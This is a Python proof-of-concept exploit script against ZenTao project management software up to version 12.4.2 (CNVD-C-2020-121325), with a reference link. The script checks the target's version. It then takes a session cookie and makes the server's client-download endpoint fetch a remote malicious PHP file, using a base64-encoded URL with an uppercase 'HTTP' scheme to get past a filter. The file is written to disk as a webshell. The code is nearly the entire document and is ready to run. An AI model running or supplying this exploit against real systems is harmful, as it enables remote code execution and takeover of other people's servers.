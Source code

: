 POC
---

    #!/usr/bin/python3
    #-*- coding:utf-8 -*-
    # author : PeiQi
    # from   : http://wiki.peiqi.tech

    import base64
    import requests
    import random
    import re
    import json
    import sys

    def title():
        print('+------------------------------------------')
        print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
        print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
        print('+  \033[34m公众号 : PeiQi文库                                                \033[0m')
        print('+  \033[34mVersion: zentao version <= 12.4.2                                 \033[0m')
        print('+  \033[36m使用格式: python3 CNVD-C-2020-121325.py                             \033[0m')
        print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
        print('+  \033[36mShell       >>> http://xxx.xxx.xxx.xxx/shell.php(恶意文件地址)       \033[0m')
        print('+  \033[36mZentaosid   >>> xxxxxxxxxxxxxx(cookie字段)                          \033[0m')
        print('+------------------------------------------')

    def POC_1(target_url):
        version_url = target_url + "/www/index.php?mode=getconfig"
        headers = {
            "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        }
        try:
            response = requests.get(url=version_url, timeout=20, headers=headers)
            version = json.loads(response.text)['version']
            print("\033[32m[o] 禅道版本为:{}\033[0m".format(version))

        except Exception as e:
            print("\033[31m[x] 获取版本失败 \033[0m", e)


    def POC_2(target_url, shell_url, zentaosid):
        options = shell_url.split("://")
        if options[0] == "http":
            shell_url = "HTTP://" + options[1]
        elif options[0] == "ftp":
            shell_url = "ftp://" + options[1]
        else:
            print("\033[31m[x] 请使用正确的请求地址 \033[0m")
            sys.exit(0)

        headers = {
            "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
            "Cookie":"zentaosid={}".format(zentaosid)
        }

        shell_url_base = str((base64.b64encode(shell_url.encode('utf-8'))),'utf-8')
        vuln_url = target_url + "/www/index.php?m=client&f=download&version=test&link={}".format(shell_url_base)
        print("\033[32m[o] 请求漏洞url：{}\033[0m".format(vuln_url))

        try:
            response = requests.get(url=vuln_url, timeout=20, headers=headers)
            if "保存成功" in response.text:
                print("\033[32m[o] 成功写入Webshell，URL地址为：{}/www/data/client/test/Webshell_name.php\033[0m".format(target_url))
            else:
                print("\033[31m[x] 恶意文件下载失败 \033[0m")
        except:
            print("\033[31m[x] 恶意文件下载失败 \033[0m")



    if __name__ == '__main__':
        title()
        target_url = str(input("\033[35mPlease input Attack Url\nUrl   >>> \033[0m"))
        shell_url  = str(input("\033[35mShell >>> \033[0m"))
        zentaosid  = str(input("\033[35mZentaosid >>> \033[0m"))
        POC_1(target_url)
        POC_2(target_url, shell_url, zentaosid)

參考
----

<http://wiki.peiqi.tech/PeiQi_Wiki/CMS%E6%BC%8F%E6%B4%9E/%E7%A6%85%E9%81%93CMS/%E7%A6%85%E9%81%93%20%E5%B0%8F%E4%BA%8E12.4.2%20%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E6%BC%8F%E6%B4%9E%20CNVD-C-2020-121325.html>